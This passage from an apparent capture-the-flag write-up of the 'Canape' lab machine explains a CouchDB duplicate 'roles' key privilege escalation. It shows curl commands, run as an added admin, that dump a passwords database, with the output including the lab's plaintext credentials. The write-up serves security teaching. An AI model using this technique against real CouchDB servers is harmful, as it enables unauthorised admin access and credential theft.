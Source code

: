 Because we have a “roles” object in there twice, the CouchDB Javascript validation will only see the second one (empty), but then Erlang json parser will keep both, and let us be an admin.

#### Enumeration as admin

Now, we can use the creds for the added admin user to read the rest of the db:

```

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords
{"db_name":"passwords","update_seq":"46-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkR2PoiQFIJlkD1bHik-dA0hdPGF1CSB19QTV5bEASYYGIAVUOp8YtQsgavcTo_YARO39rER8AQRR-wCiFuhetiwA7ytvXA","sizes":{"file":222462,"external":665,"active":1740},"purge_seq":0,"other":{"data_size":665},"doc_del_count":0,"doc_count":4,"disk_size":222462,"disk_format_version":6,"data_size":1740,"compact_running":false,"instance_start_time":"0"}

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}

```

#### Further CouchDB Exploitation

There’s 3 further ways to attack CouchDB, but since we just got SSH keys, they aren’t necessary for Canape. If you’re interested, check out the [Beyond Root - CouchDB](#couchdb-execution) section at the end.
